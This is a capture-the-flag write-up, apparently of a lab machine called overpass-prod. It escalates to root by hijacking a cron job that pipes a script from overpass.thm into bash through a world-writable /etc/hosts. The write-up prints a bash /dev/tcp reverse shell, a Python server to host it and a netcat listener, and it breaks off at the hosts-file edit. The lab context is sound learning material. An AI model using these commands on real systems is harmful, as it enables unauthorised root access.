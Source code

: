 ## Enumerating
### crontab
one thing was interesting about crontab for the system:
```
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```
It is set to make a curl to download a buildscript, and then running that as root. If I can inject my own bash script here, I can easily get a root reverse shell.
Looks like it's accessing a URL, overpass.thm. If I can edit /etc/hosts, then I can make that url point to my attacker server!
```
james@overpass-prod:~$ ls -la /etc/hosts
-rw-rw-rw- 1 root root 250 Jul 21 23:18 /etc/hosts
```
Yup, my user can edit that! So all I need to do is write a bash reverse shell script, name it properly, host it, and then wait for the connection.

## Exploiting
### reverse shell script
Back on my attacker machine, I set up a directory structure like they have:
```
cd ~
mkdir -p www/downloads/src
```
Then I create a "buildscript.sh" in this folder
```
#!/bin/bash
bash -i >& /dev/tcp/{My Machine's IP}/4444 0>&1
```

### hosting attack script
Using Python to keep this simple.
```
root@4106f9d82986:~# cd ~/www
root@4106f9d82986:~/www# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

then in another console: (or tmux pane for the cool kids)
### netcat listener
```
root@4106f9d82986:~# nc -lvnp 4444
listening on [any] 4444 ...
```

### manipulating /etc/hosts
Logging back on as James, I edit /etc/hosts
```
vi /etc/hosts
```
I see the items in the host file:
```
127.0.0.1 localhost
127.0.1.1 overpass-prod
127.0.1.1 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

